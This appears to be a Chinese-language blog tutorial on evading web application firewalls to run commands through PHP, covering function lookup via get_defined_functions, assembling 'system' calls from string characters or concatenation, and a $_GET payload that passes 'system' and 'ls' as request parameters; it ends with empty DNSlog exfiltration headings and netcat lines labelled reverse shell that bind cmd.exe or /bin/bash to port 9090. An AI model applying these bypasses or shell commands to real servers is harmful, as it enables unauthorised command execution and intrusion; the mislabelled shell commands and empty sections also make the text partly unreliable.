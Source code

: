 ### get_defined_functions

> 
get_defined_functions系统函数会返回一个多维数组，该数组包含一个所有已定义函数（包括内部函数和用户定义函数）列表；内部函数可以通过`$arr["internal"]`来表示，用户定义的函数可以使用`$arr["user"]`来表示<br/> 例如：`php -r 'print_r(get_defined_functions()[internal]);'`


> 
以上就是在不使用系统函数的名称的情况下引用系统函数的另一种方式，如果我们筛选字符串`"system"`，可以找出它的索引号，并利用这种方式使用它：`php -r 'print_r(get_defined_functions()[internal]);' | grep 'system'`


> 
利用这种方式绕过WAF和代码中的安全过滤：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210528114446389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>


### 字符数组

> 
PHP中的每个字符串都可视为一个字符数组，并且可以通过语法`$string[2]`或 `$string[-3]`来引用单个字符，这同时也是另一种绕过安全规则的方法<br/> 例如，仅仅使用字符串`$a="elmsty/ ";`，我就可以组成命令执行语句`system("ls /tmp");`(测试PHP版本&gt;7.0)


### 引号逃逸

> 
在PHP中字符串并不总是伴随着引号我们可以主动声明它的类型，像例如`$a = (string)foo;`在这种情况下，变量`$a`就是字符串`“foo”`<br/> 此外，还可以使用圆括号，如下图：


> 
第一种绕过方式：使用(system)(ls);，但因为不能使用“system”这个字符串，所以我们可以用字符串连接，例如(sy.(st).em)(ls);


> 
第二种绕过方式：使用变量`$_GET`，如果我发送这样一个请求`?a=system&amp;b=ls&amp;code=$_GET[a]($_GET[b]);`，在代码执行中`$_GET[a]`和`$_GET[b]`会被`system`和`ls`所替代，最终绕过引号的安全限制


## DNSlog外带

> 
利用域名解析请求



> 
Wireshark抓包


## 反弹shell

```
nc -L -p 9090-e cmd.exe (Windows)

nc -l -p 9090-e /bin/bash (*nix)

```
